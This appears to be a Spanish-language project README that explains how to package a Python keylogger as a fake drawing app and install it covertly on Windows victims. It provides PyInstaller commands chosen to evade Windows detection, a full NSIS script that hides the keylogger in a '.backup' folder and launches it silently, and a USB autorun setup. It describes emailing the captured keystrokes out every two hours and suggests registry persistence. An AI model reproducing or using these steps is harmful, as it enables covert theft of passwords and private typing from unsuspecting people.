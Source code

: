 # Instalador de un keylogger en una víctima Windows

Este proyecto está desarrollado solo para fines educativos.

## Idea de ataque en windows con keylogger:

Crear un instalador que instala una "app" ficticia de dibujo pero a la vez el instalador instala un keylogger(`keylogger.py`) en una carpeta oculta que se lanza automáticamente al finalizar el instalador.

El keylogger guarda todos los registros de teclado en un fichero y cada 2 horas envía por e-mail todo lo registrado. Se utiliza la librería [Sendgrid](https://sendgrid.com/solutions/email-api/) (Requiere una cuenta)

Para salir del keylogger la victima puede teclear una palabra clave `PALABRA_SALIR` (ej: byebye)
## Ejemplo: Crear el ejecutable

Se utiliza [pyinstaller](https://www.pyinstaller.org/) que permite embeber un proyecto pyhton en un .exe

```bash
pyinstaller --onedir --name "draw" -w keylogger.py
```

--name

nombre del exe `ej: draw.exe`

--onedir

el ejecutable se puede crear de dos modos, en modo `onefile` que solo crea un exe o en modo carpeta `onedir` con el .exe y las librerías. Lo más limpio sería empaquetar el script en un solo fichero .exe. Pero en las pruebas realizadas Windows detecta más facilemente que es un virus cuando se utiliza `onefile`. En modo carpeta windows es más permisible. *De esta manera nos saltamos que windows bloque el keylogger*

El pyinstaller crea el directorio `dist\draw` con el exe `dist\draw\draw.exe` y las librerias
## Ejemplo: Instalador del keylogger (ingeniería social)

Utilizando el software [nsis](https://nsis.sourceforge.io/Main_Page) se enmascara la instalación del keylogger como si fuera un software de dibujo, el usuario creerá que es un app de dibujo (es un enlace a app online) pero también instalará el keylogger en un directorio oculto (`.backup`)

Una vez finaliza la instalación se ejecuta el keylogger de forma transparente a la victima.

Pasos para generar el instalador:

- Copiar y renombrar `draw.url.dist_sample` `installer.nsi.dist_sample` y `LEEME.txt.dist_sample` en la carpeta `dist`.
- Renombrar la carpeta `dist/draw` por `dist/.backup`

```
copy draw.url.dist_sample dist\draw.url
copy installer.nsi.dist_sample dist\installer.nsi
copy LEEME.txt.dist_sample dist\LEEME.txt
move dist\draw dist\.backup

```

- Ejecutar el script `dist\installer.nsi` con NSIS para generar el instalador `draw-installer.exe`

Script NSIS

```
Outfile "draw-installer.exe"

InstallDir C:\Draw

Section

SetOutPath $INSTDIR

File LEEME.txt
File draw.url

SetOutPath $INSTDIR\.backup

File .backup\base_library.zip
File .backup\draw.exe
File .backup\libcrypto-1_1.dll
File .backup\libffi-7.dll
File .backup\libssl-1_1.dll
File .backup\pyexpat.pyd
File .backup\python310.dll
File .backup\select.pyd
File .backup\unicodedata.pyd
File .backup\VCRUNTIME140.dll
File .backup\_asyncio.pyd
File .backup\_bz2.pyd
File .backup\_ctypes.pyd
File .backup\_decimal.pyd
File .backup\_hashlib.pyd
File .backup\_lzma.pyd
File .backup\_multiprocessing.pyd
File .backup\_overlapped.pyd
File .backup\_queue.pyd
File .backup\_socket.pyd
File .backup\_ssl.pyd

SectionEnd

Section

SetOutPath $INSTDIR

SetFileAttributes "c:\Draw\.backup" HIDDEN

SetOutPath "c:\Draw\.backup"

Exec '"draw.exe"'

ExecShell "open" "C:\Draw"

SectionEnd

```
# Ejemplo: Crear USB con autplay

```
copy autorun.inf.sample d:\autorun.inf
copy draw.lnk.sample d:\draw.lnk
copy LEEME.txt.dist_sample d:\LEEME.txt
md d:\.backup
attrib +h d:\.backup /s /d
copy dist\.backup d:\.backup
```
## Posibles mejoras

* Modificar el registro de windows para que se lance al inicio de Windows
* Salir si ya hay un keylogger ejecutandose.



